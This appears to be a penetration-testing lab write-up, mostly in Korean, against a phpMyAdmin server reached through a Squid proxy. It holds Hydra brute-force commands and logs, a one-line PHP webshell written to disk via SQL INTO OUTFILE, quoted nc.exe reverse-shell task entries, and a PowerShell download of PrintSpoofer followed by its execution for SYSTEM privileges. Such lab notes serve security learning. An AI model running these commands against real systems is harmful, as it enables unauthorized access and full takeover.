  <script data-cfasync="false" type="text/javascript" src="js/vendor/codemirror/mode/sql/sql.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/codemirror/addon/runmode/runmode.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/codemirror/addon/hint/show-hint.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/codemirror/addon/hint/sql-hint.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/vendor/codemirror/addon/lint/lint.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/codemirror/addon/lint/sql-lint.js?v=5.0.2"></script>
  <script data-cfasync="false" type="text/javascript" src="js/console.js?v=5.0.2"></script>

<script data-cfasync="false" type="text/javascript">
// <![CDATA[
CommonParams.setAll({common_query:"?lang=en",opendb_url:"db_structure.php",lang:"en",server:"1",table:"",db:"",token:"4b6e4f4e3d7f6e55775b6a595d59556c",text_dir:"ltr",show_databases_navigation_as_tree:true,pma_text_default_tab:"Browse",pma_text_left_default_tab:"Structure",pma_text_left_default_tab2:false,LimitChars:"50",pftext:"",confirm:true,LoginCookieValidity:"1440",session_gc_maxlifetime:"1440",logged_in:false,is_https:false,rootPath:"/phpmyadmin/",arg_separator:"&",PMA_VERSION:"5.0.2",auth_type:"cookie",user:""});
ConsoleEnterExecutes=false

AJAX.scriptHandler
  .add('vendor/jquery/jquery.min.js', 0)
  .add('vendor/jquery/jquery-migrate.js', 0)
  .add('whitelist.php', 1)
  .add('vendor/sprintf.js', 1)
  .add('ajax.js', 0)
  .add('keyhandler.js', 1)
  .add('vendor/bootstrap/bootstrap.bundle.min.js', 1)
  .add('vendor/jquery/jquery-ui.min.js', 0)
  .add('vendor/js.cookie.js', 1)
  .add('vendor/jquery/jquery.mousewheel.js', 0)
  .add('vendor/jquery/jquery.event.drag-2.2.js', 0)
  .add('vendor/jquery/jquery.validate.js', 0)
  .add('vendor/jquery/jquery-ui-timepicker-addon.js', 0)
  .add('vendor/jquery/jquery.ba-hashchange-1.3.js', 0)
  .add('vendor/jquery/jquery.debounce-1.0.5.js', 0)
  .add('menu_resizer.js', 1)
  .add('cross_framing_protection.js', 0)
  .add('rte.js', 1)
  .add('vendor/tracekit.js', 1)
  .add('error_report.js', 1)
  .add('messages.php', 0)
  .add('config.js', 1)
  .add('doclinks.js', 1)
  .add('functions.js', 1)
  .add('navigation.js', 1)
  .add('indexes.js', 1)
  .add('common.js', 1)
  .add('page_settings.js', 1)
  .add('drag_drop_import.js', 1)
  .add('shortcuts_handler.js', 1)
  .add('vendor/codemirror/lib/codemirror.js', 0)
  .add('vendor/codemirror/mode/sql/sql.js', 0)
  .add('vendor/codemirror/addon/runmode/runmode.js', 0)
  .add('vendor/codemirror/addon/hint/show-hint.js', 0)
  .add('vendor/codemirror/addon/hint/sql-hint.js', 0)
  .add('vendor/codemirror/addon/lint/lint.js', 0)
  .add('codemirror/addon/lint/sql-lint.js', 0)
  .add('console.js', 1)
;
$(function() {
        AJAX.fireOnload('whitelist.php');
      AJAX.fireOnload('vendor/sprintf.js');
        AJAX.fireOnload('keyhandler.js');
      AJAX.fireOnload('vendor/bootstrap/bootstrap.bundle.min.js');
        AJAX.fireOnload('vendor/js.cookie.js');
                  AJAX.fireOnload('menu_resizer.js');
        AJAX.fireOnload('rte.js');
      AJAX.fireOnload('vendor/tracekit.js');
      AJAX.fireOnload('error_report.js');
        AJAX.fireOnload('config.js');
      AJAX.fireOnload('doclinks.js');
      AJAX.fireOnload('functions.js');
      AJAX.fireOnload('navigation.js');
      AJAX.fireOnload('indexes.js');
      AJAX.fireOnload('common.js');
      AJAX.fireOnload('page_settings.js');
      AJAX.fireOnload('drag_drop_import.js');
      AJAX.fireOnload('shortcuts_handler.js');
                    AJAX.fireOnload('console.js');
  });
// ]]>
</script>

<noscript><style>html{display:block}</style></noscript>
</head>
<body id=loginform>

  <div id="page_content">

<div class="container">
<a href="./url.php?url=https%3A%2F%2Fwww.phpmyadmin.net%2F" target="_blank" rel="noopener noreferrer" class="logo">

</a>
<h1>Welcome to <bdo dir="ltr" lang="en">phpMyAdmin</bdo></h1>

<noscript>
<div class="error"> Javascript must be enabled past this point!</div>
</noscript>

<div class="hide" id="js-https-mismatch">
<div class="error"> There is a mismatch between HTTPS indicated on the server and client. This can lead to a non working phpMyAdmin or a security risk. Please fix your server configuration to indicate HTTPS properly.</div>
</div>
<div class='hide js-show'>    <form method="get" action="index.php" class="disableAjax">
    <input type="hidden" name="db" value=""><input type="hidden" name="table" value=""><input type="hidden" name="lang" value="en"><input type="hidden" name="token" value="4b6e4f4e3d7f6e55775b6a595d59556c">

            <fieldset>
            <legend lang="en" dir="ltr">Language</legend>

    <select name="lang" class="autosubmit" lang="en" dir="ltr" id="sel-lang">

                    <option value="sq">
        Shqip - Albanian
        </option>
                    <option value="ar">
        &#1575;&#1604;&#1593;&#1585;&#1576;&#1610;&#1577; - Arabic
        </option>
                    <option value="hy">
        Հայերէն - Armenian
        </option>
                    <option value="az">
        Az&#601;rbaycanca - Azerbaijani
        </option>
                    <option value="bn">
        বাংলা - Bangla
        </option>
                    <option value="be">
        &#1041;&#1077;&#1083;&#1072;&#1088;&#1091;&#1089;&#1082;&#1072;&#1103; - Belarusian
        </option>
                    <option value="bg">
        &#1041;&#1098;&#1083;&#1075;&#1072;&#1088;&#1089;&#1082;&#1080; - Bulgarian
        </option>
                    <option value="ca">
        Catal&agrave; - Catalan
        </option>
                    <option value="zh_cn">
        &#20013;&#25991; - Chinese simplified
        </option>
                    <option value="zh_tw">
        &#20013;&#25991; - Chinese traditional
        </option>
                    <option value="cs">
        Čeština - Czech
        </option>
                    <option value="da">
        Dansk - Danish
        </option>
                    <option value="nl">
        Nederlands - Dutch
        </option>
                    <option value="en"                selected="selected">
        English
        </option>
                    <option value="en_gb">
        English (United Kingdom)
        </option>
                    <option value="et">
        Eesti - Estonian
        </option>
                    <option value="fi">
        Suomi - Finnish
        </option>
                    <option value="fr">
        Fran&ccedil;ais - French
        </option>
                    <option value="gl">
        Galego - Galician
        </option>
                    <option value="de">
        Deutsch - German
        </option>
                    <option value="el">
        &Epsilon;&lambda;&lambda;&eta;&nu;&iota;&kappa;&#940; - Greek
        </option>
                    <option value="he">
        &#1506;&#1489;&#1512;&#1497;&#1514; - Hebrew
        </option>
                    <option value="hu">
        Magyar - Hungarian
        </option>
                    <option value="id">
        Bahasa Indonesia - Indonesian
        </option>
                    <option value="ia">
        Interlingua
        </option>
                    <option value="it">
        Italiano - Italian
        </option>
                    <option value="ja">
        &#26085;&#26412;&#35486; - Japanese
        </option>
                    <option value="kk">
        Қазақ - Kazakh
        </option>
                    <option value="ko">
        &#54620;&#44397;&#50612; - Korean
        </option>
                    <option value="lt">
        Lietuvi&#371; - Lithuanian
        </option>
                    <option value="nb">
        Norsk - Norwegian
        </option>
                    <option value="pl">
        Polski - Polish
        </option>
                    <option value="pt">
        Portugu&ecirc;s - Portuguese
        </option>
                    <option value="pt_br">
        Portugu&ecirc;s (Brasil) - Portuguese (Brazil)
        </option>
                    <option value="ro">
        Rom&acirc;n&#259; - Romanian
        </option>
                    <option value="ru">
        &#1056;&#1091;&#1089;&#1089;&#1082;&#1080;&#1081; - Russian
        </option>
                    <option value="sr@latin">
        Srpski - Serbian (latin)
        </option>
                    <option value="si">
        &#3523;&#3538;&#3458;&#3524;&#3517; - Sinhala
        </option>
                    <option value="sk">
        Sloven&#269;ina - Slovak
        </option>
                    <option value="sl">
        Sloven&scaron;&#269;ina - Slovenian
        </option>
                    <option value="es">
        Espa&ntilde;ol - Spanish
        </option>
                    <option value="sv">
        Svenska - Swedish
        </option>
                    <option value="tr">
        T&uuml;rk&ccedil;e - Turkish
        </option>
                    <option value="uk">
        &#1059;&#1082;&#1088;&#1072;&#1111;&#1085;&#1089;&#1100;&#1082;&#1072; - Ukrainian
        </option>
                    <option value="vi">
        Tiếng Việt - Vietnamese
        </option>

    </select>

            </fieldset>

    </form>

</div>
    <br>
    <!-- Login form -->
    <form method="post" id="login_form" action="index.php" name="login_form" class="disableAjax hide login js-show">
        <fieldset>
        <legend><input type="hidden" name="set_session" value="efmjdaqtn632al1euqagdro04f">Log in<a href="doc/html/index.html" target="documentation"></a></legend><div class="item">
                <label for="input_username">Username:</label>
                <input type="text" name="pma_username" id="input_username" value="" size="24" class="textfield">
            </div>
            <div class="item">
                <label for="input_password">Password:</label>
                <input type="password" name="pma_password" id="input_password" value="" size="24" class="textfield">
            </div><div class="item">
                <label for="select_server">Server Choice:</label>
                <select name="server" id="select_server"><option value="1"  selected="selected">MySQL</option>
<option value="2" >MariaDB</option>
</select></div></fieldset><fieldset class="tblFooters"><input class="btn btn-primary" value="Go" type="submit" id="input_go"><input type="hidden" name="target" value="index.php"><input type="hidden" name="lang" value="en"><input type="hidden" name="token" value="4b6e4f4e3d7f6e55775b6a595d59556c"></fieldset>
    </form></div>
  </div>
  </body>
</html>
```

- form 확인 결과 index.php 로그인 목적지 확인

## 6. Hydra

```bash
hydra -l root -P /usr/share/wo
```

```bash
HYDRA_PROXY=http://192.168.66.189:3128 hydra -L users.txt -P passes.txt -s 8080 127.0.0.1 http-post-form "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^&server=2&target=index.php&token=TOKEN:F=Access denied" -t 4 -f -V
```

### 6-1. DB 직접 (실패)

DB 직접 브루트포스 -> 실패

```bash
HYDRA_PROXY=http://192.168.66.189:3128 hydra -l root -P passes.txt -s 3307 127.0.0.1 mysql -t 4 -f -V
```

```text
┌──(root㉿docker-desktop)-[/]
└─# HYDRA_PROXY=http://192.168.66.189:3128 hydra -l root -P passes.txt -s 3307 127.0.0.1 mysql -t 4 -f -V
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-19 09:33:49
[WARNING] module mysql does not support HYDRA_PROXY* !
[ERROR] File for passwords not found: passes.txt
```

- hydra MYSQL 모듈을 지원하지 않으므로 접기
- 추후 python custom try

Most-Popular-Letter-Passes.txt
/usr/share/wordlists/seclists/Passwords/Most-Popular-Letter-Passes.txt

```bash
HYDRA_PROXY=http://192.168.66.189:3128 hydra -l root -P /usr/share/wordlists/seclists/Passwords/Most-Popular-Letter-Passes.txt -s 3307 127.0.0.1 mysql -t 4 -f -V
```

```text
┌──(root㉿docker-desktop)-[/usr/share/wordlists/seclists/Passwords]
└─# HYDRA_PROXY=http://192.168.66.189:3128 hydra -l root -P /usr/share/wordlists/seclists/Passwords/Most-Popular-Letter-Passes.txt -s 3307 127.0.0.1 mysql -t 4 -f -V
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-19 09:35:21
[WARNING] module mysql does not support HYDRA_PROXY* !
[INFO] Using Connect Proxy: http://192.168.66.189:3128
[WARNING] http:// is an invalid type, must be connect://, socks4:// or socks5:// if you use HYDRA_PROXY, entry ignored
[ERROR] proxy defined but not valid, exiting
```

```bash
HYDRA_PROXY=http://192.168.66.189:3128 hydra -l root -P /usr/share/wordlists/seclists/Passwords/Most-Popular-Letter-Passes.txt -s 8080 127.0.0.1 http-post-form "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^&server=2&target=index.php&token=TOKEN:F=Access denied" -t 4 -f -V
```

```text
┌──(root㉿docker-desktop)-[/usr/share/wordlists/seclists/Passwords]
└─# HYDRA_PROXY=http://192.168.66.189:3128 hydra -l root -P /usr/share/wordlists/seclists/Passwords/Most-Popular-Letter-Passes.txt -s 8080 127.0.0.1 http-post-form "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^&server=2&target=index.php&token=TOKEN:F=Access denied" -t 4 -f -V
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-19 09:36:31
[INFO] Using Connect Proxy: http://192.168.66.189:3128
[WARNING] http:// is an invalid type, must be connect://, socks4:// or socks5:// if you use HYDRA_PROXY, entry ignored
[ERROR] proxy defined but not valid, exiting
```

- http 지원 안 한다고 경고
- password
  /usr/share/wordlists/seclists/Passwords/Most-Popular-Letter-Passes.txt
- username
  /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt

```text
┌──(root㉿docker-desktop)-[/]
└─# proxychains4 -q hydra -l root -P /usr/share/wordlists/seclists/Passwords/Most-Popular-Letter-Passes.txt -s 3307 127.0.0.1 mysql -t 4 -f -V
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-19 09:39:18
[DATA] max 4 tasks per 1 server, overall 4 tasks, 47603 login tries (l:1/p:47603), ~11901 tries per task
[DATA] attacking mysql://127.0.0.1:3307/
[ATTEMPT] target 127.0.0.1 - login "root" - pass ""spring" - 1 of 47603 [child 0] (0/0)
[ATTEMPT] target 127.0.0.1 - login "root" - pass "'buster+'" - 2 of 47603 [child 1] (0/0)
[ATTEMPT] target 127.0.0.1 - login "root" - pass "++++" - 3 of 47603 [child 2] (0/0)
[ATTEMPT] target 127.0.0.1 - login "root" - pass "+monday" - 4 of 47603 [child 3] (0/0)
```

```text
┌──(root㉿docker-desktop)-[/]
└─# proxychains4 -q hydra -l root -P /usr/share/wordlists/seclists/Passwords/Most-Popular-Letter-Passes.txt -s 3307 127.0.0.1 mysql -t 4 -f -V
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-19 09:39:18
[DATA] max 4 tasks per 1 server, overall 4 tasks, 47603 login tries (l:1/p:47603), ~11901 tries per task
[DATA] attacking mysql://127.0.0.1:3307/
[ATTEMPT] target 127.0.0.1 - login "root" - pass ""spring" - 1 of 47603 [child 0] (0/0)
[ATTEMPT] target 127.0.0.1 - login "root" - pass "'buster+'" - 2 of 47603 [child 1] (0/0)
[ATTEMPT] target 127.0.0.1 - login "root" - pass "++++" - 3 of 47603 [child 2] (0/0)
[ATTEMPT] target 127.0.0.1 - login "root" - pass "+monday" - 4 of 47603 [child 3] (0/0)
[ERROR] Child with pid 8109 terminating, can not connect
[ERROR] Child with pid 8108 terminating, can not connect
[ERROR] Child with pid 8106 terminating, can not connect
[ERROR] Child with pid 8107 terminating, can not connect
[ERROR] all children were disabled due too many connection errors
0 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-10-19 09:39:51
```

## 7. 토큰 확보

```bash
   TOKEN=$(curl -s -x http://192.168.66.189:3128 http://127.0.0.1:8080/phpmyadmin/index.php | grep -oP 'name="token" value="\K[^"]+'); echo "token=$TOKEN"
```

```text
┌──(root㉿docker-desktop)-[/usr/share/wordlists/seclists/Usernames]
└─# TOKEN=$(curl -s -x http://192.168.66.189:3128 http://127.0.0.1:8080/phpmyadmin/index.php | grep -oP 'name="token" value="\K[^"]+'); echo "token=$TOKEN"
token=3f6459722c632d2b667b365b454e6f78
3f6459722c632d2b667b365b454e6f7
```

## 8. 교차 브루트포스

- /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt

```text
┌──(root㉿docker-desktop)-[/usr/share/wordlists/seclists/Usernames]
└─# proxychains4 hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/seclists/Passwords/Most-Popular-Letter-Passes.txt -s 8080 127.0.0.1 http-post-form "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^&server=2&target=index.php&token=$TOKEN:F=Access denied:C=/phpmyadmin/index.php" -t 4 -f -V
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-19 09:49:03
[DATA] max 4 tasks per 1 server, overall 4 tasks, 809251 login tries (l:17/p:47603), ~202313 tries per task
[DATA] attacking http-post-form://127.0.0.1:8080/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^&server=2&target=index.php&token=:F=Access denied:C=/phpmyadmin/index.php
[ERROR] no valid optional parameter type given: F
```

---

```bash
proxychains4 hydra -L top-usernames-shortlist.txt -P ../Passwords/Most-Popular-Letter-Passes.txt -s 8080 127.0.0.1 http-post-form "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^&server=2&target=index.php&token=$T:C=/phpmyadmin/index.php:2=:F=CSRF" -t 4 -f -V
216a2f757c755648564f4c6478424b54 216a2f757c755648564f4c6478424b54
```

```text
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-19 09:57:25
[DATA] max 4 tasks per 1 server, overall 4 tasks, 809251 login tries (l:17/p:47603), ~202313 tries per task
[DATA] attacking http-post-form://127.0.0.1:8080/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^&server=2&target=index.php&token=216a2f757c755648564f4c6478424b54
216a2f757c755648564f4c6478424b54:C=/phpmyadmin/index.php:2=:F=CSRF
[proxychains] Strict chain ... 192.168.66.189:3128 [proxychains] Strict chain ... 192.168.66.189:3128 [proxychains] Strict chain ... 192.168.66.189:3128 [proxychains] Strict chain ... 192.168.66.189:3128 [ATTEMPT] target 127.0.0.1 - login "root" - pass ""spring" - 1 of 809251 [child 0] (0/0)
[ATTEMPT] target 127.0.0.1 - login "root" - pass "'buster+'" - 2 of 809251 [child 1] (0/0)
[ATTEMPT] target 127.0.0.1 - login "root" - pass "++++" - 3 of 809251 [child 2] (0/0)
[ATTEMPT] target 127.0.0.1 - login "root" - pass "+monday" - 4 of 809251 [child 3] (0/0)
... 127.0.0.1:8080 ... 127.0.0.1:8080 ... 127.0.0.1:8080 ... 127.0.0.1:8080 <--socket error or timeout!
<--socket error or timeout!
<--socket error or timeout!
<--socket error or timeout!
[proxychains] Strict chain ... 192.168.66.189:3128 [proxychains] Strict chain ... 192.168.66.189:3128 [proxychains] Strict chain ... 192.168.66.189:3128 [proxychains] Strict chain ... 192.168.66.189:3128 ... 127.0.0.1:8080 ... 127.0.0.1:8080 ... 127.0.0.1:8080 ... 127.0.0.1:8080 <--socket error or timeout!
[ERROR] Child with pid 8312 terminating, cannot connect
<--socket error or timeout!
[ERROR] Child with pid 8314 terminating, cannot connect
<--socket error or timeout!
<--socket error or timeout!
[ERROR] Child with pid 8315 terminating, cannot connect
[ERROR] Child with pid 8313 terminating, cannot connect
[ERROR] all children were disabled due too many connection errors
0 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-10-19 09:57:58
```

# 9. 기초부터 다시 시작 헤더 확인

- session, JWT, 동적 CSRF 인지 체크 필요 -> 인증은 반드시 확인

curl -I -x http://192.168.66.189:3128 http://127.0.0.1:8080/phpmyadmin/index.php

┌──(root㉿docker-desktop)-[/]
└─# curl -I -x http://192.168.66.189:3128 http://127.0.0.1:8080/phpmyadmin/index.php
HTTP/1.1 200 OK
Date: Tue, 20 Oct 2026 07:45:00 GMT
Server: Apache/2.4.46 (Win64) PHP/7.3.21
X-Powered-By: PHP/7.3.21
Set-Cookie: phpMyAdmin=q7eh3e6mkafdhr7unc88tg0ibd; path=/phpmyadmin/; HttpOnly
Expires: Tue, 20 Oct 2026 07:45:00 +0000
Cache-Control: no-store, no-cache, must-revalidate, pre-check=0, post-check=0, max-age=0
Last-Modified: Tue, 20 Oct 2026 07:45:00 +0000
Set-Cookie: phpMyAdmin=q7eh3e6mkafdhr7unc88tg0ibd; path=/phpmyadmin/; HttpOnly
Set-Cookie: goto=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/phpmyadmin/
Set-Cookie: back=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/phpmyadmin/
Set-Cookie: pma_lang=en; expires=Thu, 19-Nov-2026 07:45:00 GMT; Max-Age=2592000; path=/phpmyadmin/; HttpOnly
Set-Cookie: phpMyAdmin=34unte42olto360mnopc85fphc; path=/phpmyadmin/; HttpOnly
X-ob_mode: 1
X-Frame-Options: DENY
Referrer-Policy: no-referrer
Content-Security-Policy: default-src 'self' ;script-src 'self' 'unsafe-inline' 'unsafe-eval' ;style-src 'self' 'unsafe-inline' ;img-src 'self' data: *.tile.openstreetmap.org;object-src 'none';
X-Content-Security-Policy: default-src 'self' ;options inline-script eval-script;referrer no-referrer;img-src 'self' data: *.tile.openstreetmap.org;object-src 'none';
X-WebKit-CSP: default-src 'self' ;script-src 'self' 'unsafe-inline' 'unsafe-eval';referrer no-referrer;style-src 'self' 'unsafe-inline' ;img-src 'self' data: *.tile.openstreetmap.org;object-src 'none';
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Permitted-Cross-Domain-Policies: none
X-Robots-Tag: noindex, nofollow
Pragma: no-cache
Vary: Accept-Encoding
Content-Type: text/html; charset=utf-8
X-Cache: MISS from SQUID
Via: 1.1 SQUID (squid/4.14)
Connection: keep-alive

# Set-Cookie 가 있는 걸로 보아 서버에서 관리하는 것으로 보임

# 매번 쿠키 값이 바뀜 -> phpMyAdmin=ngnkdcdih69nvvoqepo7sjjea2; phpMyAdmin=brpuucl37jmkdio18j0p7gmhk9;

phpMyAdmin은 로그인 시 세션+CSRF 토큰 검증을 하므로 Hydra처럼 정적 토큰을 쓰면
전부 거부된다. 그래서 매 시도마다 GET으로 토큰을 새로 받아 POST하는 구조.
커스텀 python 브루트포서 작성

요청 하나하나가 "GET으로 토큰 획득 → 쿠키 유지 → POST" 체인

# 커스텀 제작

./tmp/brute_pma.py


# root / 빈 값 (성공)

# burpsuite proxy setting

192.168.66.189


# success initial access

- MYSQL webshell output write
  
- SELECT '<?php system($_GET["cm-----d"]); ?>' INTO OUTFILE 'C:/wamp/www/shell.php';
- 현재 웹 서비스가 wamp에서 진행된다고 가정하고 /wamp/www/ 경로에 생성 -> 일반적으로 wamp는 C:/wamp/www/ 을 사용하기 때문에 시도하기
- nt authority\local service
  
- 그냥 C:/shell.php 도 실행이 되는데?

http://192.168.66.189:8080/shell.php?cmd=whoami




- local service -> 계정 탈취 성공 -> 일반적으로 기본 권한을 포함하는 경우가 많음 -> 가장 기능 활성화 확인
- 최상위 SYSTEM 권한 탈취 필요

http://192.168.66.189:8080/shell.php?cmd=whoami%20/priv


PRIVILEGES INFORMATION ---------------------- Privilege Name Description State ============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token Disabled
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled
SeSystemtimePrivilege Change the system time Disabled
SeAuditPrivilege Generate security audits Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
SeTimeZonePrivilege Change the time zone Disabled

# SeImpersonatePrivilege -> enabled -> 일시적 사용자 권한을 가장하여 수행

- 키워드
  - PrintSpoofer
  - JuicyPotato

공격자는 이 권한을 악용해 시스템 내부에서 실행 중인 권한 높은 서비스(예: Print Spooler 등)가 자신(공격자의 프로세스)에게 강제로 인증을 시도하도록 만듭니다.
시스템 서비스가 인증을 위해 보낸 토큰을 가로채서 그 토큰을 이용해 프로세스를 실행하면, 최고 관리자 권한인 SYSTEM으로 권한이 수직 상승하게 됩니다. (이것이 바로 PrintSpoofer 같은 도구가 작동하는 방식입니다.

- 
- 
  schtasks /query /fo LIST /v -> 자동화된 명령어 탐색
  http://192.168.66.189:8080/shell.php?cmd=schtasks /query /fo LIST /v
  http://192.168.66.189:8080/shell.php?cmd=schtasks /query /fo LIST /v | findstr /i "Perm \wamp"

- 
- wamp windows + apache + mysql/mariadb + php
- 로그 분석
  Task To Run: powershell.exe -Exec Bypass -Command "C:\wampp\nc.exe 192.168.118.23 4444 -e cmd.exe" Task To Run: powershell.exe -Exec Bypass -Command "C:\wampp\nc.exe 192.168.100.23 4444 -e cmd.exe"

  http://192.168.66.189:8080/shell.php?cmd=schtasks /query /fo LIST /v | findstr /i "PrintSpoofer"

바이너리 옮기기

- local
  python3 -m http.server 80

- target
  powershell -c "Invoke-WebRequest -Uri 'http://192.168.49.66/PrintSpoofer.exe' -OutFile 'C:\Temp\PrintSpoofer.exe'"

```ps1
http://192.168.66.189:8080/shell.php?cmd=powershell -c "Invoke-WebRequest -Uri 'http://192.168.49.66/PrintSpoofer.exe' -OutFile 'C:\Temp\PrintSpoofer.exe'"
```

# 파일 없어서 실패 칼리에서 설치


sudo wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe -O PrintSpoofer.exe


```ps1
http://192.168.66.189:8080/shell.php?cmd=powershell -c "Invoke-WebRequest -Uri 'http://192.168.49.66/usr/share/windows-resources/binaries/PrintSpoofer.exe' -OutFile 'C:\Temp\PrintSpoofer.exe'"
```


# 아예 해당 파일 위치로 이동해서 python server on -> 그래도 안 되길래 그냥 파일을 / 로 옮기고 시도 -> 성공

# 192.168.49.66 -> MyIP

http://192.168.66.189:8080/shell.php?cmd=powershell -c "Invoke-WebRequest -Uri 'http://192.168.49.66/PrintSpoofer.exe' -OutFile 'C:\Temp\PrintSpoofer.exe'"

# 타겟으로 PrintSpoofer 역다운로드로 파일 이동 성공


http://192.168.66.189:8080/shell2.php?cmd=C:\Temp\PrintSpoofer.exe -i -c cmd.exe

# Change LHOST in PrintSpoofer before sending
